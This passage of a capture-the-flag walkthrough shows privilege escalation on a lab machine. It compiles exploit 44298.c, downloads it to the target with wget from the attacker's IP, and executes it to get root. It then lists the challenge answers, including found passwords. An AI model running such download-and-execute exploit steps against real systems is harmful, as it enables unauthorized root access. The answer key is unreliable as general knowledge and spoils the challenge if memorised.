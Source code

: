 **gcc 44298.c -o exploit**

**/etc/init.d/apache2 start**

**ifconfig**

![image (3).png](img9.png)

![image (4).png](img10.png)

When the exploit has successfully complied, I started the apache2 service to transfer this exploit to the target machine.

I changed my current directory to the tmp directory on the target machine and downloaded the exploit by using the wget utility. After that, I provided executable permission by using the chmod command. After that, I ran the exploit, which gave the root access of the target machine. All the commands and their output can be seen highlighted in the following screenshot.

### **Commands Used:**

**cd /tmp/**

**wget 10.9.227.16/exploit**

**chmod +x exploit**

**./exploit**

![image (7).png](img11.png)

Now we have root access to the target machine. Let’s find the flag and complete the CTF.

![image (6).png](img12.png)

I read the flag file in the tmp directory by using the cat command. The flag can be seen in the following screenshot.

![image (5).png](img13.png)

**Done!!!!!! Let us see the answers to the challenge questions now.**

What was seina’s password to the email service?

**scoobydoo2**

Looking through her emails, what was a temporary password set for her?

**S1ck3nBluff+secureshell**

<style>
.center img {display:block; margin:auto;}
.wrap pre{white-space: pre-wrap;}
</style>
